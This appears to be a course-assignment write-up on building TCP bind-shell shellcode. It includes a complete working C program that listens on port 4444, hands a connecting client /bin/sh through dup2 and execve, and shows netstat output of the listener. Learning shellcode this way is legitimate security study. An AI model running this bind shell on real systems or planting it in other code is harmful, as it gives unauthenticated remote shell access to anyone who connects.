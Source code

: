 <div id="table-of-contents">
<h2>Table of Contents</h2>
<div id="text-table-of-contents">
<ul>
<li><a href="#sec-1">1. Assignment 1</a>
<ul>
<li><a href="#sec-1-1">1.1. Requirements</a></li>
<li><a href="#sec-1-2">1.2. Strategy</a></li>
<li><a href="#sec-1-3">1.3. The C program</a></li>
</ul>
</li>
</ul>
</div>
</div>

# Assignment 1<a id="sec-1" name="sec-1"></a>

## Requirements<a id="sec-1-1" name="sec-1-1"></a>

-   Create a Shell<sub>Bind</sub><sub>TCP</sub> shellcode
    -   Bind to a port
    -   Execs Shell on incoming connection
-   Port number should be easily configurable

## Strategy<a id="sec-1-2" name="sec-1-2"></a>

My approach to building a tcp bind shell shellcode will be to:

-   Create a C program which illustrates the basic functionality
-   Analyze the C program system calls to see how the program interacts with the kernel to accomplish its tasks
-   Lookup the system calls and see what arguments and structures they take
-   Attempt to write some assembly that calls the same system calls in the same order with the same arguments as the C program does
-   Debug issues as of course there will be :)

## The C program<a id="sec-1-3" name="sec-1-3"></a>

From my experience playing around with socket programming in C and
Python, there is a basic formula and group of function calls for
creating clients and servers. Most of them will be useful to us. A
couple won't be applicable to our situation.  The functions we will
find useful are:

-   Socket: Open a socket over which we will communicate. Essentially a file descriptor
-   Bind: Bind our socket to an interface on our system
-   Listen: Tell our system that we are ready to start accepting connections
-   Accept: Accept the connection. This is a necessary next step as listen will generally queue up connections in anticipation of them being accepted

Functions we won't worry about:

-   Send
-   Recv
-   Connect
-   Close

We won't worry about send or recv because they are used for managing
the flow of data coming in and out and acting accordingly.  We are
instead going to just redirect stdin, stdout, and stderr over the
socket using a function called dup2 and not worry about managing the
flow of data. Since we aren't connecting to another system/server we
don't need to worry about connect. And as for close, it is generally
good practice to close files after your done with them but one leaked
file descriptor won't hurt anyone right? We need to trim the fat!

So lets get some code going!

    #include <stdio.h>
    #include <netinet/in.h>
    #define PORT 4444
    
    int main(int argc, char **argv)
    {
      // Create a socket
      int lsock = socket(AF_INET, SOCK_STREAM, 0);
    
      // Setup servr side config struct
      // We configure:
      // The family:IPv4
      // The interface: 0.0.0.0 (any)
      // The port: port#
      struct sockaddr_in config;
      config.sin_family = AF_INET;
      config.sin_addr.s_addr = INADDR_ANY;
      config.sin_port = htons(PORT);
    
      // Bind the created socket with the interface
      // specified in the configuration
      bind(lsock, (struct sockaddr *)&config, sizeof(config));
    
      // Listen on the socket
      listen(lsock, 0);
    
      // Accept the incoming connection
      int csock = accept(lsock, NULL, NULL);
      // Redirect stdin, stdout, and stderror
      dup2(csock, 0);
      dup2(csock, 1);
      dup2(csock, 2);
    
      // Execute a shell
      execve("/bin/sh", NULL, NULL);
    };

Compiling this code with `gcc bindshell.c -o bindshell` gives us a nice
executable. Running the executable with `./bindshell` and then looking
at our network using `netstat -antp` yields something very interesting&#x2026;

    root@blahblah:~# netstat -atp
    Active Internet connections (servers and established)
    Proto Local Address Foreign Address State   PID/Program name
    tcp   *:4444        *:*             LISTEN  1657/bindshell
